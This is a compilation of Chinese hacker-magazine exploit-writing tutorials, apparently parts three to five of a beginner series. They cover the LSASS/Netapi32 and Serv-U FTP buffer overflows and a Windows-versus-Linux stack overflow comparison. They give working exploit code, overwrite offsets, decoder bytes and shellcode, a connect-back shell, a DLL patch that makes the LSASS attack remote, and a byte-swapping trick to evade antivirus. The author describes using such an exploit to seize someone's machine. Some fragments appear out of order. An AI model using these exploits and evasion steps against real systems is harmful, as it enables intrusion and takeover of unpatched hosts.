你的机器也差不多重启完了，打开调试器 Ollydbg，文件→附加，选中 lsass.exe。为什么是 lsass.exe 呢？你看图1，显示异常终止的是 lsass.exe，所以我们要附加调试它……等 Ollydbg 加载完所有模块后，按一下 F9 让 lsass.exe 继续运行，我们再回过头去修改 1.cpp。溢出已经顺利触发，下一步应该是精确定位溢出点。

```c
for(i=0;i<MAXLEN-1;i++)
    buf[2*i] = 'A';
```

这一段，原来是填充大量的 'A'，按照我们上次说的两次定位法，把这里反复填充 ASCII 码为 100~200 的数，这样子改：

```c
for(i=0; i<MAXLEN-1; i++)
    buf[2*i] = (char)(i % 100 + 100);
```

编译后运行光盘中的 2.cpp。扑通，Ollydbg 跳了出来，显示“访问违法：写入到 [00960000]……”，如图2所示。

这时候错误信息已经被 Ollydbg 监测到，并且可以调试。继续执行后错误信息变成“访问违反：正在执行 [93929190]……”，如图3所示。

关键地址出来了，赶快记录下数据 `0x93929190`，然后重启。接下来目标是定位溢出点高位，之后寻找可用指令并跳转到 shellcode。

```c
for(i=0; i<MAXLEN-1; i++)
    buf[2*i] = (char)(i/100 + 100);
```

改成光盘中的 3.cpp 后重复步骤，得到高位地址 `0x80808080`。然后在寄存器附近观察，重点看 eax/ebx/ecx 等与我们输入数据的关系。

这一轮与上次 CMail 不同：上次是 esp 相关，这次是 ebx。思路是若寄存器指向可控数据，就找 `call ebx` 或 `push ebx/ret`（或对应 esp 版本）来精确定位。

```text
(0x80 - 100) * 100 + (0x90 - 100) = 2844
```

即在程序中从偏移 2844 处写入一个内存地址（如 `0x7FFA1571`），把 3.cpp 改为 4.cpp，在对应位置填充该地址。

```c
buf[2*2844] = 0x71;
buf[2*2845] = 0x15;
buf[2*2846] = 0xFA;
buf[2*2847] = 0x7F;
```

运行后 Ollydbg 提示执行到提交数据上（图4），查看 EIP 发现字节序列与写入地址前 4 字节吻合，说明已接近 shellcode 入口。

随后处理一个问题：shellcode 不止 4 字节，需保留固定位置并使用短跳转。可将 4 字节写成 `NOP/NOP/JMP 4`，再在后面放 shellcode。

开始覆盖某处 B 后跳到 A，再由 A 的小跳转到 C，最终进入 shellcode。

脚本小子：本期这篇文章是我们《菜鸟版 EXP 编写指南》系列的第三篇文章，从第一篇文章发表后在读者群中引起轰动效应，到无数喜欢研究系统漏洞的朋友来电、来函要求我们继续将这样的好文章刊登下去，并提出许多非常好的建议，已经是 4 个月的时间过去了。……我们除了感谢作者并仔细研究文章内容外，还有什么可做的呢？

## 菜鸟版 Exploit 编写指南之三：
## Serv-U FTP 漏洞旧饭重炒

文/图 F.Zh

我也很诧异我这个菜鸟能把这个系列写到第三篇，但既然有人读，就只有继续献丑了。写稿的时候 Windows 平台及其第三方软件似乎没有报道有新的漏洞，只能用以前的一些重要漏洞作为例子。继续这样的话，不知道会不会有一天写到古老的 IDQ/IDA 啊，或许我应该换一下平台，写写 *nix 上面的东西？

Serv-U 在国内的应用还是很广泛的，很多虚拟主机还有一些下载电影的网站都喜欢用这种 FTP 服务软件，所以从今年一月份开始公布的一系列 Serv-U 的漏洞真是杀伤力超大。说起来虽然从 Site Chmod 到 MDTM 到后来畸形路径都是简单的栈溢出，但对 Shellcode 的要求和对覆盖地址的要求还是比较高，外面有一些分析的文章，我们精确定位和上面定位的方法一样，大家可以当作练习做来看看。

```c
C中放shellcode。

嗯，继续吧。我知道你还要重启一次，乘这个空当儿（wtf：#@$%##$%）……我没有什么要说的，你还是喝杯水吧。
```

好，我们要给这个漏洞以最后一击。在 r=2840 开始的地方填上 NOP/NOP/Jmp 4 个字节的机器码 `9090EB04`，在 r=2848 开始的地方填上 shellcode。用上次的 MShell 函数生成合适的 shellcode，全部加入到我们最后的成品 5.cpp（见光盘中的 5.cpp）中去，理论上应该成功了。

- 回顾一下我们这次菜鸟之旅的心得：
  1. 如果我们能够控制 EIP 的内容，就能获得控制权。此时要看哪个寄存器指向我们发送的数据，然后根据寄存器选定一个内存中的地址（该地址内容应是 call XXX 的指令码）来覆盖溢出点。
  2. 执行到我们发送的数据上后，如果发现有不能更改的数据，那我们就想办法跳过去。

在本地监听 11111 端口，不用打开 Ollydbg 了，直接执行程序，看到了么，我们的 nc 已经给出我们一个 shell！如图5所示。应该说到这里这个漏洞的本地利用算是已经写好，下面的事情就是包装包装程序，让用户可以在使用的时候根据实际情况给出 connect back 的 IP 和端口号。

对这个漏洞，有些东西我想要解释一下。首先是我们这次是给那个很长的 buf 一个一个地赋值，而不是一次性拷贝很多字符串过去，这是为了能够触发漏洞的缘故。win2k 下面要求必须是 unicode，但是在发生溢出的时候实际上已经把 unicode 转换了回来，我们就将这一过程视为透明的好了——只要我们能够控制 EIP 的值，形式如何我们并不关心。还有就是这个漏洞可以有两次机会控制 EIP，头一次说过 jmp esp 之类的操作码在内存中的地址是对版本有依赖性的，这里多了一次机会，当然可以放上两个不同版本/语言对应的操作码的地址，这样通用性会得到提高。

总之，菜鸟也是有菜鸟的乐趣，在别人公布了漏洞，没有公布利用程序之前，有很多人都不会注意去打补丁的。如果能够最快速度写出 exploit 来自己用，还是能获得很好的机器。我就是用自己写的本地溢出来提升权限，获得了对某台机器的控制权，成功的那一瞬间，还是非常有成就感的哦！

就用这些文章为例来看，ShellCode 怎么去构造。

关于溢出的触发方法和基本框架结构的搭建，这个系列的前面几个部分已经说了不少，这里先从最原始的 FTP 协议开始，简单说说怎样搭一个触发溢出的框架。

FTP 协议标准具体可以参见 RFC959/2228/2640/2773。Serv-U 漏洞的前面两个都是扩展协议出的问题，从触发的流程可以看出：连接到 FTP 服务端口 → 登录 → 畸形提交导致溢出。值得注意的是，很多 FTP 服务软件并不严格遵循 RFC 定义，最好能够找到 FTP 服务器对应的手册，按照手册的描述针对性地写出程序。对于 Serv-U，如果用 NC 来连接到 FTP 的服务端口，你会发现一个奇怪的问题，那就是不管你输入了什么东西，Serv-U 的守护进程始终不给你返回信息。最开始的时候我也被这个问题困扰了很久，后来抓包的时候才发现，原来 NC 把我们的回车作为一个单独的 `\n` 发送了出去，而 Serv-U 要求的命令结束符是 `\r\n`。这个结论很讨厌，其直接的后果是触发溢出漏洞的时候我们不能用方便的 NC，而只能 Telnet 过去。顺带着说一句，Telnet 是可以有回显的，连接上后按 `ctrl+]`，再输入 `set local_echo`，然后再返回连接模式就可以看到。不过 Telnet 是接受一个字节发送一个字节，很多方便的快捷键（如上下左右）就没有办法使用，倘若经常使用到这些功能，不妨自己写一个类似 NC 的小工具。

好，现在先来手工触发漏洞。按照 FTP 协议，连接以后应该有一个合法的身份可以登录，然后我们通过一个畸形的命令让 Serv-U 挂掉。下面是一个流程。当然，前提是 Serv-U 是 4.x 版本的，而且已经 Telnet 过去。值得注意的是 Site Chmod 需要一个有写权限的账号：

```text
220 Hello, This is F.Zh's FTP Server.
user test
331 User name okay, need password.
pass test
230 User logged in, proceed.
site chmod 777 namenameanameanameaname...
```

前面有数字的都是服务器给我们的提示，这类数字在 FTP 协议中有详细的描述，可以查阅一下 RFC。我们提交的是 `user/pass/site` 开头的几行，存在漏洞的服务器在一个超长的 Site Chmod 过去后，由于守护进程挂掉了，连接也会断掉。如果连接没有断掉的话，你可能要检查一下，是不是用户没有写权限，或者是 Serv-U 的版本不对。

> 把重复的动作自动化。写程序本来也就是搭好“最开始的架子”（如 cpp），有步骤、有源码、有日志，按顺序复现即可。

那么开始运行这个最初的触发漏洞程序吧。之前当然要先打开我们的利器——Ollydbg，选择附加到 “ServUDaemon” 这个进程。当程序运行的时候，Ollydbg 会在发生错误的地方停下来，如图1所示。

> 这个我们已经看过很多次了，不是吗？接下来我们可以按 Shift+F9 直接看到出错画面；不过这一次，我们来看清楚 Windows 到底是怎样处理的。

看清楚了吗？原来程序出错以后，Windows 还给了它一个最后处理异常的机会，这就是所谓 SEH 结构化异常处理机制。抛开中间细节不管，单看到最后的地方，这个处理机制从内存中读了一个数据，然后准备跳转过去（动画结束的时候那个 `call ecx`）。是不是觉得这个地址很熟悉啊？`0x73737373`（ASCII 码对应 4 个小写的 s），刚好是我们提交的内容。再在内存中看看 ebx 指向的地方，刚好也是我们提交的数据。我们可以控制跳转的方向，同时可以动态定位（ebx）我们的数据地址，非常符合一个典型的溢出情况。如果你看过这个系列的前面几篇，我想你已经知道下一步该怎么做了。在 Ollydbg 中按一下 F9，果然执行到了 `0x73737373`，如图2所示。

## 新手学溢出

接下来就是两次触发异常来准确定位溢出点，然后覆盖跳转的地址为一个和“call ebx”等价的内存地址，然后添上我们的 ShellCode。流程没有错，但是 ShellCode 这一步有点问题……

从外面对漏洞的描述文章中可以知道，ShellCode 中不能含有的字符包括上面提到的非文件字符、空格，还有 3 个连续 `0xFF` 等。如果你平时注意收集 ShellCode 的话，说不定能找到满足要求的拿来直接用……

这里插一句话，很多 ShellCode 都是分成两段的，真正有意义的在第二段，第一段不过是起着解码的功能。我们找 ShellCode 的时候，首先看看它的第二部分是不是满足字符限制……

这个漏洞对 ShellCode 的要求比较讨厌，因为连续的 3 个 `0xFF` 不能出现，也就是说传统的用 Call+pop 来动态定位需要解码的真实 ShellCode 地址这条路是行不通的……

前面说到过，溢出的时候 Ebx 刚好指向我们的 ShellCode 前面的八个字节，如下表所示：

| NOPs | jmp 6 | jmp 6 | jmp ebx | Decode | real ShellCode |
|---|---|---|---|---|---|
| 4 bytes |  | 4 bytes |  | ?? | ebx + 8 + ?? |

溢出发生并且成功跳转以后，Ebx 指向的地方是第一个 `jmp 6` 处……中间隔了 8 个字节以及一个 Decode 部分的长度。这个数字目前无法确定，但是我们写出 Decode 部分后就可以确定了……

下面开始写合乎编码要求的 Decode 部分了，基本上这是一个费时间的工作……

就得不停地编译、不停地去看、去修改。既然是体力活，我也不废话了，给出一个模板……先看代码，后面还会有解释：

```asm
add ebx,32h
xor ecx,ecx
mov cx,155h
Decode:
  xor byte ptr [ebx+ecx],99h
  loop Decode
```

第一句当然是确定需要解码的 ShellCode 的内存地址；第二、三句是确定解码长度；第四、五句是简单循环，依次把 ShellCode 解码……

在 VC 中嵌入汇编可以很轻松地看到编译后的机器码，搜集一下：

```
\x83\xC3\x32\x33\xC9\x66\xB9\x83\x01\x80\x34\x0B\x99\xE2\xFA
```

这下子 Decode 部分的长度也知道了，一共是 15 个字节……所以，解码部分的第一句 `add ebx,32h` 要改成 `add ebx,16h`，所以最后得到的 Decode 是：

```
\x83\xC3\x16\x33\xC9\x66\xB9\x83\x01\x80\x34\x0B\x99\xE2\xFA


```

把这一段替换掉原来 ShellCode 的 Decode 部分，就可以放心地使用。

> 构造好我们的最终版的溢出程序，呵呵。中间的步骤虽然看起来都省略了，但想想其实事情并不多，就是确定一下溢出点……我算过了 403，你也算算？

运行一下试试看，成功没有？什么，没有成功？失败了？

> 我们拿出 OllyDbg 看看，一步一步地跟着走，看看为什么，是因为 Decode 出了问题吗？

从调试的过程来看，Decode 部分（就是 `call ecx -> jmp ebx -> jmp xxxxx` 后开始的地方）没有出错，解码也确实成功了，但是执行 ShellCode 中似乎出了点问题。

第一个直觉是 ShellCode 被改掉了，在哪里被改的呢，现在还不清楚究竟是 ShellCode 本身含有特殊字符，还是在溢出发生之前被改掉了。第一种情况的话，可以换一个 ShellCode。第二种情况就要挨着挨着去对比，工作量比较大。按道理应该先做第一个，但具体有些什么字符不能包含我们并不是很清楚，如果贸然去换 ShellCode 的话，可能问题越来越多，所以还是先做第二种情况。有些时候，看似麻烦的路子可能反而容易走一些。

和上次的工作一样，运行到 Decode 部分，在内存里面选择显示 Ebx 处的内容，然后选定后面的一大段数据，导出到文件，如图 3 所示。
我们来仔细对比一下内存中的内容和程序中 ShellCode 的内容是否一样。经过长时间仔细地比较，我们发现在 `Ebx+28` 的地方好像不一样。回去再看看图 2，呵呵，我用红笔画出来的，发现了么？这个地方非常显眼，应该是 “s” 啊，却变成了 “q”，被减小了 2。同样的，对比文件中也发现是减小了 2，如图 4 所示。
> 既然这样，我们把 `Ebx+28` 地方的值先加上 2，到时候再减掉 2，不就刚刚好吗？

执行一下程序，然后 `Telnet 127.0.0.1 53`，Shell 是不是已经出来了？很有成就感吧，呵呵。

对于 Serv-U 的 MDTM 时区漏洞，我记得在最开始的那一篇文章里面简要地提到过，这个漏洞的问题是如果时区超长反而就不会触发，所以必须控制好时区的长度。由于时区不能过长，所以一般来说都在这里只放上一个搜索真正 ShellCode 的搜索代码，而把起作用的 ShellCode 放到其他地方。这个 Search Code 和第一次的几乎一样，而且也没有什么特别需要注意的地方，有兴趣的朋友不妨动手做一做。

这个系列写到这里该总结一下。对于栈溢出来说，其实要写一个 Exploit 并不是特别的困难，我们只要知道其中的原理，然后用细心加耐心去调试就可以了。Exploit 中真正重点的地方几乎都在 ShellCode 中，而 ShellCode 中最让人头痛的功能部分，已经有很多大虾们写好并且无私地贴了出来，我们除了学习，就是直接拿来使用。对于不同的漏洞，可能对 ShellCode 的要求不一样，这是唯一在调试每一个漏洞中能得到乐趣的地方；而其他，像对溢出点的定位、溢出程序的基本构造，都是很繁琐也很机械的行为，如果不能在这些当中获得一些乐趣的话，跳过这些部分也无妨。

对于上面的溢出，还值得指出的是，由于可写的目录不一定是根目录，因而有可能我们需要对路径进行切换。单独的路径切换，仅仅用一个 CWD 命令就可以完成，但是路径对溢出点的定位是有影响的。倘若要将程序做得完善，对于路径的考虑非常必要。另外，要做出通用的东西，还要考虑命令行的输入等，很多东西要让用户自己去指定，这些都是繁琐的工作。在外面发布的一些利用源代码做得很好，看看就行，在这个地方不再赘述了。

关于这里写出来的一些调试方法，有些看起来似乎非常地取巧，然而却是很有效果。写出来纯粹是为了让读者也能感受一下编写 Exploit 的乐趣，并不是主张读者用相同的方法去研究漏洞。我想不管什么漏洞，最好都能够看看反汇编的代码，这样比我们在这里有些东西只能靠瞎猜（比如前面的某一个地方被减去了 2）要好很多。而且一旦对这个非常感兴趣的话，如果不去看反汇编而仅仅是黑盒方式来测试的话，就算有所提高，这提高也是非常有限的。

- 1. 一般来说，栈溢出比堆溢出更容易利用，也更加通用。  
- 2. 在考虑 Exploit 的通用性之前，最好能把软件在 Windows 的各个版本下（Windows 2003、XP，不同的语言版本、不同的 SP 版本）调试一下，软件的兼容性也是一个问题，最好能够找到有漏洞的最高版本的软件来调试。  
- 3. 不要试图在不同版本的 Windows 里寻找不同跳转方式的相同地址。也就是说，不要在 Windows 2003 SP4 简体中文版里的某个进程里搜索所有的 `jmp esp`（`FF E4`）的地址，在 Windows XP SP1 英文版里的某个进程里搜索所有的 `push esp; ret`（`54 C3`）的地址，然后妄图比较出一个相同的地址。除非是加载在 `0x00400000` 位置的进程。另外，在同一种系统的各个语言版本（如 Windows 2000 SP4），在 `Msvcrt.dll` 中找到的地址可以通用；在同一种语言的各个系统版本（如简体中文 Windows 2000、Windows XP、Windows 2003），在 `0x7FFA0000` 中找到的地址可以通用。  
- 4. 如果用覆盖异常的方式接管指令（比如这篇文章中举到的例子），要注意到 XP/2003 和 2000 是不同的。如果要写通用程序，最好用 `pop, pop, ret` 的方式，Windows XP/2003 下面你常常会发现 Ebx 在溢出的时候变成了 0。  
- 5. 涉及到搜索内存里的 ShellCode 的时候，最好能够先接管异常……  
- 6. 对于菜鸟而言，应果断地放弃 UNICODE，除非你有很多时间……  
- 7. 指令跳转大多数情况下是靠指令 `jmp`、`call` 或者 `ret`……  
- 8. 除了 Esp/Ebx，还有其他方法可以定位 ShellCode……  
- 9. 栈溢出时，把 ShellCode 放到覆盖返回地址或者异常处理链前面也不失为一个好方法。  
- 10. 对于漏洞而言，写合适的 ShellCode 往往是最难，也是最有乐趣的一步……  
- 11. 享受 Exploit 的乐趣，如果你不能够得到满足或者无法下手，不妨休息一下……

脚本小子，这篇文章的目的是想拓宽缓冲区溢出编程思路。其实 Hack 技术、Crack 技术以及 Sniffer 技术是密不可分的，都是围绕着真正的黑客精神——探索和共享不断发展和进步的。本文就从 Exploit 讲起，利用 Hacker + Cracker + Sniffer 几种不同的技术将溢出程序打造得更加完美，很具有通用性，适合喜欢“偷懒”的朋友学习溢出哦！

## 菜鸟版 Exploit 编写指南之四

### Hacker + Cracker + Sniffer 的综合利用

文／图 王炜／ww0830

看了《黑客防线》上 F.ZH 的《菜鸟版 Exploit 编写指南》系列，觉得是难得的教科书般的文章。在那两篇文章里，F.ZH 用独创的整除求余法，利用系统出错对话框提供的信息，精确地定位覆盖点。由于语言的通俗性和方法的实用性，成就了 F.ZH 在缓冲区初学者教程方面的经典。

缓冲区入门级教材已经达到了很难超越的水平啦（脚本小子：汗……），但独哥给了我一个机会，让我再写写缓冲区的溢出，于是我就对上天说：“给我其他适合初学者的漏洞吧，如果非要给数目加上限的话，我希望是一万个（比尔·盖茨……）！”还好，F.ZH 还没有把漏洞介绍赶尽杀绝，他上次讲的 `Lsasrv.dll` 的本地溢出阐述的是一般情况下编写 Exploit 的思路……

可能考虑到面向初学者的原因，作者更多地是直接给出操作，没有涉及原因。比如为什么 `JMP ESP` 可以跳到后面，`JMP EBX` 会跳到前面，实际并不像作者说的 ESP 和 EBX 正好就是前面或后面那个位置那么简单。里面有很多系统处理的原因……为了弥补作者理论上的不足，真正成就缓冲区入门教程经典，所以自己写了篇《读<菜鸟版 Exploit 编写指南>有感》……

```c
HMODULE hNetapi = LoadLibrary("Netapi32.dll");
DsRoleUpgradeDownlevelServer = (DSROLEUPGRADEDOWNLEVELSERVER)GetProcAddress(hNetapi,
    "DsRoleUpgradeDownlevelServer");

DsRoleUpgradeDownlevelServer(
    (unsigned long)&buf[0], (unsigned long)&buf2[0], (unsigned long)&buf2[0],
    (unsigned long)&buf2[0], (unsigned long)&buf2[0], (unsigned long)&buf2[0],
    (unsigned long)&buf2[0], (unsigned long)&buf2[0], (unsigned long)&buf2[0]);


```

图 1

大家都看到了，是从系统 `Netapi32.dll` 中找到 `DsRolepEncryptPasswordStart` 函数，然后执行该函数，函数的第一个参数过长就会溢出了。溢出效果是什么？嘿嘿，你还没重启够吗？

> Windows 不像 UNIX 那样依靠系统调用来实现关键功能。Windows 通过动态链接库来提供系统函数。流言中提到的 `DsRoleUpgradeDownlevelServer` 函数由 `Netapi32.dll` 提供，调用前需先 `LoadLibrary("Netapi32.dll")`，再 `GetProcAddress` 获取地址后调用 `DsRolepEncryptPasswordStart`。

重启多次后可知问题在某个函数处理中。文中分析 `Netapi32.dll` 中的 `DsRoleUpgradeDownlevelServer` 为客户端函数，超长参数会在服务端 `LSASRV.dll` 对应处理函数中触发问题。默认实现偏向本地请求，从而导致本地重启。

如果要远程利用，就需要让请求能够发向远程主机而非仅本机。思路是修改相关实现，使其不仅可本地请求，也可远程请求。

做 Hacker/Cracker 技术应不断深入、研究、创新并共享，建议多看黑防相关资料。
破解文章中提到可直接对 `NetApi32.dll` 下手。反编译后可在 `DsRoleUpgradeDownlevelServer()` 相关位置看到参数，并在 IDA 中显示 opcode 字节以便定位修改点。

```asm
lea eax, [ebp+var_34]
push eax
push 0
call DsRolepEncryptPasswordStart
```

根据分析，`DsRolepEncryptPasswordStart` 的第一个参数原为 `push 0`（本机）。将其替换为远程主机地址来源参数（如 `[ebp+var_34]`）即可把请求发往远程。

```asm
push eax
mov eax, [ebp+var_34]
push eax
nop


```

修改时应保证字节数一致，用 `NOP` 补齐。可用 WinHex 搜索定位后按图示方式改写。

| offset | hex bytes |
|---|---|
| 0003C9E0 | 45 DD 33 C0 80 7D D8 AB ... |
| 0003C9F0 | 50 8B 45 E4 50 6A 02 50 ... |
| 0003CA00 | 00 D8 85 C0 75 4A 21 45 ... |

图 3

保存为 `Ww1NetApi.dll` 后会触发杀软告警。随后在测试代码中加载改后 DLL，并把相关参数改为远程主机地址（Unicode 形式），最终可连接目标主机端口，说明远程请求生效。

哈，现在远程利用就初步实现了，但离我们真正 Hacker 想要达到的目标还有很长的路要走。我们辛辛苦苦修改的 DLL 会被查杀成病毒……我们就让杀毒软件不认识！

杀毒软件是按照文件的特征码来识别一个病毒或木马的，我们只是在正常的系统文件 `NetApi32.dll` 基础上改了 6 个字节……我们把这 6 个字节稍微改改，看它还能识别不。

### 什么是特征码？

> 现在绝大多数杀毒软件都是建立在“病毒特征码”基础上的。有新病毒出现时，厂商先要获取病毒样本，提取其特征码，再加入库中查杀……如果把判断特征码改成不影响功能的其他指令，就可能绕过查杀。从这个意义上说，反病毒技术需要革命化突破。

刚才说了，`90` 是 `NOP`，表示什么都不做的空指令。我们把它放在其他指令之间，和指令 `50` 交换一下位置，如图 4 所示。

| 地址 | 十六进制字节 |
|---|---|
| 0003C9F0 | ... |
| 0003CA00 | ... |
| 0003CA10 | ... |

图 4

然后保存为 `Ww2NetApi.dll`，让诺顿再扫描，这下没报警了……我们把程序改为读 `Ww2NetApi.dll` 再运行，还是成功溢出，如图 5 所示！
图 5

前面我们是直接物理修改了 `NetApi32.dll`，就像破解一样。改了物理文件，我们还可以在内存里动态修改……看 SCZ 的一段话：

```c
/*
 * 修改 DsRolepEncryptPasswordStart() 第一形参为指定值，跳转回源流程。
 */
static unsigned char HookCode[] = {
  0xC7,0x44,0x24,0x04, ...,
  0xB8, ...,
  0xFF,0xE0
};


```

这个代码的意思就是直接改第一个参数为指定值后再执行函数……`CALL HookCode`，在 `HookCode` 里面直接指定第一个参数为远程主机地址，然后跳去执行函数，就能在内存里动态地改了。

……我们就把 DLL 也去掉，完全用一个程序实现。怎么实现呢？根据木桶原理，整体安全强度由最薄弱的一根木条决定……本机向远程发起请求时会经过网络，所以可以把远程主机发的请求包抓下来并模拟发送。

说干就干，先打开 Ethereal，再对远程主机攻击一次，把攻击发送的包抓下来，我们看看效果，如图 6 所示。
图 6

看得出来，1.166 是攻击机，1.169 是被攻击服务器……关键是发送一定请求，再把超长参数发过去。我们不必完全理解协议，只需把请求拷贝进数组，直接向远程机发出即可……Sniffer 很有用。

| 适合读者 | 程序员、漏洞追随者 |
|---|---|
| 前置知识 | ASP 基本语法 |
| 难度等级 | 中 |

WTF：相信很多朋友都和我一样一直都在 Windows 下进行溢出的分析和学习吧？而对 Linux 是能避则避。进入堆溢出的学习阶段后，我发现 Windows 下的资料很少，而且没有相关基础很难理解，所以就计划先啃掉基于 Linux 系统堆溢出的资料……如果把它们对比起来学习，那会发现许多美妙之处。

## “菜鸟版 Exploit 编写指南”之五

文/图 王炜/ww0830

### 在 Windows 下对比学习 Linux 堆栈溢出
在正式开始我们的 Exploit 学习之前，首先让我们做一个必备的工作：安装虚拟机。VMWare 是一个虚拟机软件工具，利用它可以在一台机器上同时运行两个或更多的操作系统……后面我们将体会到这样的美妙。

第三个好处就是节约硬盘空间了，我们可以安装多个不同的系统进行学习……比如在 Windows 2000 SP4 的系统上安装 Windows 2000 SP0、RedHat 7.2、RedHat 8.0……

第一个好处是便于学习未知的软件和操作。比如 Linux 下的文本编辑器 VI，初学者首次进入时……现在用虚拟机，用 `Ctrl+Alt` 轻松退到 Windows 环境，然后再去 Google 搜索解决办法。
第二个好处是 VMWare 是窗口模式的，初学者会感到很熟悉，抓图也很方便，少了学习 Linux 的恐惧感。

好处这么多，或许新手会觉得这样的软件安装起来一定复杂异常，实际上 VMWare 安装起来非常方便……简单安装后我们就有了一个很好的环境，可以在 Windows 下学习 Linux 下的编程和调试，以及缓冲区溢出。下面进入今天的正题！

### Linux 和 Windows 堆栈溢出条件对比

我们看一个很简单的漏洞作为例子，在 Windows 和 Linux 系统下，溢出有什么相同和不同。程序如下：

```c
#include <stdio.h>
#include <string.h>
char name[] = "ww0830";
int main()
{
    char output[12];
    ...
}
```

方法：分析 MS 未文档化的东西，特别是 RPC 相关的东西，那更是相当有用！

文章到了这里就完了，非常感谢黑防能给我这个和大家一起讨论、探讨问题的机会。特别是老编独哥，一直在给我提醒和帮助……

PS：一上 QQ，独哥就必问稿件进度如何，而且特别关注稿件内容……哈哈哈……

```c
strcpy(output, name);
printf("%s\n", output);
return 0;


```

程序很简单，就是把 `Name` 里面装的字符拷贝给 `Output`，然后把它 `printf` 出来。在 Windows 下，编译、链接、执行，其结果如图 2 所示，就是把 `ww0830` 输出到屏幕后，安全地退出。
那在 Linux 下呢？我们用 `vi` 敲一个同样的程序 `vul.c`，然后用命令 `gcc -o vul vul.c` 编译生成可执行文件 `vul`，执行 `./vul`，其结果如图 3 所示。也是成功运行后，安全退出。
而在 Linux 下呢？我们先从 a 到 x，居然没有反应？如图 6 所示。好，我们继续加长，看它溢出不溢出！加到 `yz12` 的时候，终于出错了，Linux 下的出错提示信息是 `Segmentation fault`，如图 7 所示。看来给 `Output` 分配的空间不仅仅是 12 个字节，要多得多。
接下来我们增加 `Name` 数组的长度，在 Windows 下改成 `abcdefghijklmnopqrstuvwx`，然后运行，结果如图 4，溢出了！仔细看显示的 `0x74737271` 就是 `qrst`，`q` 是第 17 位字母，看来就是第 17 个数据盖到了 EIP。
这样，我们可以总结出：Linux 和 Windows 堆栈溢出条件是相似的，都是字符串超过数组的大小而溢出的；产生溢出后，它们都会报错，可以方便我们定位溢出点。但它们也有些许不同，在 Linux 下不像 Windows 恰好给数组分配定义大小的这么多，Linux 下用 GCC 编译的时候会随机填充一定数目的无用数据。另一个区别是 Windows 报错时会给出 EIP 当时的值，可以方便我们利用，而 Linux 只会提示段错误，不会报出错的数据。

## Linux 和 Windows 堆栈溢出利用对比

好了，对比了溢出的产生后，我们再看看溢出的利用有什么异同吧。堆栈溢出的利用有 3 大条件，一是返回点的定位，二是 ShellCode 的编写，三是跳转到 ShellCode。如果大家对这 3 个条件本身的意义还不清楚，就多翻翻以前的杂志吧。我们就由这 3 个条件开始，继续由刚才那个程序，对比着学习 Windows 和 Linux 的缓冲区溢出。

## 1. 返回点的定位

在 Windows 下，FZH 在已经经典的《菜鸟版 Exploit 编写指南之一》的文章中，详细地讲述了利用报错对话框精确定位溢出返回点的方法。上面的那个程序溢出的时候大家也看到了，Windows 下弹出报错对话框，显示“0x74737271 指令引用 0x74737271 内存，该地址不能为 read”（如图 8 所示）。

Windows 为 `char output[12]` 分配了 12 字节的空间，后面是 4 字节的 EBP，再后面就是 4 字节的 EIP 了。如果传递给 `Output` 的值超过了 16 个字节，就会进入 EIP，把保存的返回地址覆盖了，这样程序在返回的时候就会出错了，其结构如图 5 所示。
里面隐含的意思就是返回点 EIP 被覆盖成了 `0x74737271`，执行的时候该地址是不能读的，就有错误了。`0x74737271` 是什么呢？前面说了，就是字符串 `qrst`。离我们填充的第一个字符 `a` 正好距离是 `q-a=0x71-0x61=0x10=16`，所以在报错对话框的帮助下，我们可以知道覆盖 16 个字符后到达返回点位置。Linux 下虽然只显示 `Segmentation fault`，但可通过逐渐增加输入长度判断覆盖位置。

在 Linux 下示例中，填充到 28 个字符时覆盖到返回点 EIP（前面覆盖到 EBP），因此可定位返回地址偏移。知道 EIP 位置后可将其覆盖为目标地址，使程序跳转执行我们希望的代码（ShellCode）。

## 2. ShellCode 的编写方法

Shell 最初指人机交互界面，这里 ShellCode 指可实现特定功能的代码。示例目标是打开一个 DOS 窗口，以便执行更多操作。

```c
#include <Windows.h>
int main() {
    LoadLibrary("msvcrt.dll");
    system("command.com");
    return 0;
}


```

Windows 下执行 `command.com` 可获得 DOS 窗口。文中说明 `system` 由 `msvcrt.dll` 提供，因此先 `LoadLibrary("msvcrt.dll")` 再调用 `system`。
我们要得到机器码形式的 ShellCode，可在 VC 中调试（F10），在 Debug 工具里查看 Disassemble 与 Code Bytes，从而得到源程序对应机器码。
文中指出直接抄出的代码通常还需汇编优化，并处理函数地址调用问题，才能得到可在 Windows 2000 SPN 下打开 DOS 窗口的 ShellCode。

```c
char Shellcode[] =
"\x8B\xE5\x55\x8B\xEC...";
```

要将其构造成实战可用 ShellCode，还需解决通用性、编码、功能等问题。本文后续将重点转向 Linux 下打开 Shell 的对比示例。

```c
#include <stdio.h>
int main() {
    char *name[2];
    name[0] = "/bin/sh";
    name[1] = NULL;
    execve(name[0], name, NULL);
    return 0;
}


```

即通过 `execve` 执行 `/bin/sh`，在 Linux 下编译运行后得到新的 Shell，可在其中执行各种命令（图 11）。
接下来将其转换为机器码。文中指出 Linux 的函数执行依赖系统调用：将参数赋给寄存器后，通过中断 `int 0x80` 完成调用。执行相应的函数。

刚才那个 `execve` 函数的执行过程是：将 `0xb` 拷贝到寄存器 EAX 中（`execve` 的代码号），将 `/bin/sh` 的地址拷贝到寄存器 EBX 中，将 `/bin/sh` 的地址拷贝到寄存器 ECX 中，将 `NULL` 拷贝到寄存器 EDX 中，然后执行中断指令 `int $0x80`，所以 Linux 下我们的 ShellCode 就是：

```c
char ShellCode[] = {
"\x31\xc0"              // xor %eax,%eax
"\x50"                  // push %eax
"\x68\x2f\x2f\x73\x68"  // push $0x68732f2f
"\x68\x2f\x62\x69\x6e"  // push $0x6e69622f
"\x89\xe3"              // mov %esp,%ebx
"\x8d\x54\x24\x08"      // lea 0x8(%esp,1),%edx
"\x50"                  // push %eax
"\x53"                  // push %ebx
"\x8d\x0c\x24"          // lea (%esp,1),%ecx
"\xb0\x0b"              // mov $0xb,%al
"\xcd\x80"              // int $0x80
};


```

这就是 Windows 和 Linux 下 ShellCode 的来源。在实际编写 Exploit 的过程中，Windows 和 Linux 都有很多现成的 ShellCode，我们直接拿来使用就可以了，但明白了原理总要好很多。

## Linux 和 Windows 跳转到 ShellCode 方法对比

现在分析一下我们现在拥有的资源。

- 1. 我们知道了有问题程序返回点的精确位置，可以把它覆盖成任意地址，让计算机执行这个地址的代码。
- 2. 我们有了 ShellCode，一个可以给我们提供 DOS 窗口或新 Shell 的代码。
- 3. 接下来应把程序的返回点地址覆盖为 ShellCode 的地址，这样程序返回时就可以执行我们的 ShellCode。

